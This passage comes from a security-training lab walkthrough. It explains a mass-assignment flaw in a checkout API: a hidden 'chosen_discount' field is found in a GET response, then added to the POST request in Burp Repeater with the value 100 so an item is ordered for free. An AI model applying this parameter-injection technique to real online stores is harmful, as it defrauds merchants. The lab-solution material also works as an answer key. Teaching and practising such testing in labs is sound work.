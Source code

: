 **GET Request to `/api/checkout` (Identifying Parameters)**

* The **GET response** reveals a `chosen_discount` parameter:

```json
{
  "chosen_discount": { "percentage": 0 },
  "chosen_products": [
    { "product_id": "1", "quantity": 1, "name": "Lightweight \"l33t\" Leather Jacket" }
  ],
  "item_price": 133700
}
```

* This suggests that the API **tracks discount values**, but the **POST request does not include this field**.

**POST Request to `/api/checkout` (Missing Parameters)**

* The **original POST request** lacks the `chosen_discount` field:

```json
{
  "chosen_products": [
    { "product_id": "1", "quantity": 1 }
  ]
}
```

#### **Step 4: Modify the POST Request**

* Send the `POST /api/checkout` request to **Burp Repeater**.
* Modify the payload to **include the `chosen_discount` parameter** with a value of `100`:

```json
{
  "chosen_discount": { "percentage": 100 },
  "chosen_products": [
    { "product_id": "1", "quantity": 1 }
  ]
}
```

#### **Step 5: Send the Modified Request**

* Submit the modified request in **Burp Repeater**.
* If successful, a `201 Created` response should be returned.

#### **Step 6: Verify Lab Completion**

* Return to the **lab interface** and confirm the order was placed successfully.
* The lab should display a **completion message**.

***

### **Instructor Solution Steps**
